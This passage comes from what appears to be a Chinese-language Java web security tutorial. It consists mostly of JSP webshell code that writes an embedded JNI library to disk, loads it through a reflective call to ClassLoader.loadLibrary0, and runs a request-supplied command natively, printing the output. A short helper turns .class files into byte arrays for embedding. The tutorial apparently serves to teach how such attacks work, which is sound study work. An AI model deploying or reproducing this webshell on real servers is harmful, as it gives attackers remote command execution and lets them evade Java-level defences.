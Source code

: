 ```java
    if (loader == null) {
        loader = new ClassLoader(this.getClass().getClassLoader()) {
            @Override
            protected Class<?> findClass(String name) throws ClassNotFoundException {
                try {
                    return super.findClass(name);
                } catch (ClassNotFoundException e) {
                    return defineClass(COMMAND_CLASS_NAME, COMMAND_CLASS_BYTES, 0, COMMAND_CLASS_BYTES.length);
                }
            }
        };

        writeJNILibFile(jniBytes != null ? jniBytes : COMMAND_JNI_FILE_BYTES);// 写JNI文件到临时文件目录

        application.setAttribute("__LOADER__", loader);
    }

    try {
        // load命令执行类
        Class  commandClass = loader.loadClass("com.anbai.sec.cmd.CommandExecution");
        Object loadLib      = application.getAttribute("__LOAD_LIB__");

        if (loadLib == null || !((Boolean) loadLib)) {
            Method loadLibrary0Method = ClassLoader.class.getDeclaredMethod("loadLibrary0", Class.class, File.class);
            loadLibrary0Method.setAccessible(true);
            loadLibrary0Method.invoke(loader, commandClass, jniFile);
            application.setAttribute("__LOAD_LIB__", true);
        }

        String content = (String) commandClass.getMethod("exec", String.class).invoke(null, cmd);
        out.println("<pre>");
        out.println(content);
        out.println("</pre>");
    } catch (Exception e) {
        out.println(e.toString());
        throw e;
    }

%>
```
代码中的 COMMAND_JNI_FILE_BYTES 内容较大，具体文件内容可见：[javaweb-sec/javaweb-sec-source/javasec-test/javasec-vuls-struts2/src/main/webapp/modules/jni/loadlibrary.jsp at master · javaweb-sec/javaweb-sec · GitHub](https://github.com/javaweb-sec/javaweb-sec/blob/master/javaweb-sec-source/javasec-test/javasec-vuls-struts2/src/main/webapp/modules/jni/loadlibrary.jsp)

脚本中需要先将 .class 转化为字节数组，代码如下：

```java
public static byte[] getBytesArrayFromClassFile(String classFilePath) throws Exception{
    byte[] classBytes = Files.readAllBytes(Paths.get(classFilePath));
    for(byte b : classBytes) {
        System.out.print(b);
        System.out.print(",");
    }
    return classBytes;
}
```
